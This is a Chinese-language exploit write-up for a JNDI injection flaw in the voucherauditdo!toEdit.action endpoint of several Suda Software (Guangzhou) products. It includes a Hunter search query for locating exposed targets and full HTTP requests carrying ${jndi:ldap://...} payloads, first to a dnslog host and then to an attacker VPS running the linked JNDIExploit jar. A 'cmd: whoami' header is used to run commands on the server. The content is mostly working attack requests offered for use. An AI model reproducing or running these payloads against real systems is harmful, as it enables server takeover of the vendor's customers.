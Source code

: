 # 速达软件技术（广州）有限公司多款产品voucherauditdo存在JNID注入漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品voucherauditdo存在JNID注入漏洞,攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/TlMETPa1inTIybRs/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-675709.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/TlMETPa1inTIybRs/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-994840.png)

# 四、漏洞复现
1. 获取dnslog

```plain
g58b0k.dnslog.cn
```

![1705075159021-2f829661-f6a2-4877-a2e3-d16320f8cac1.png](./img/TlMETPa1inTIybRs/1705075159021-2f829661-f6a2-4877-a2e3-d16320f8cac1-536627.png)

2. 检测是否存在漏洞

```plain
GET /account/voucher/voucherauditdo!toEdit.action?billId=${jndi:ldap://g58b0k.dnslog.cn} HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
cmd: whoami
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705075219543-d6f88494-a50a-487a-a203-e1cca93f0077.png](./img/TlMETPa1inTIybRs/1705075219543-d6f88494-a50a-487a-a203-e1cca93f0077-736341.png)

![1705075233260-58dbace8-b56d-4880-b43e-73f2be788dbe.png](./img/TlMETPa1inTIybRs/1705075233260-58dbace8-b56d-4880-b43e-73f2be788dbe-552308.png)

漏洞利用

[JNDIExploit-1.4-SNAPSHOT.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222146450-e43931b2-c4c5-4cf5-859c-4328905c634c.jar)

将`JNDIExploit-1.4-SNAPSHOT.jar`上传到`vps`

```plain
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i vpsip
```

![1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb.png](./img/TlMETPa1inTIybRs/1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb-414644.png)

```plain
GET /account/voucher/voucherauditdo!toEdit.action?billId=${jndi:ldap://vpsip:1389/Basic/TomcatEcho} HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
cmd: whoami
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705075417091-bed33e43-e858-400a-86f9-6a14714033ca.png](./img/TlMETPa1inTIybRs/1705075417091-bed33e43-e858-400a-86f9-6a14714033ca-450138.png)





> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yfgdget075d9tggf>
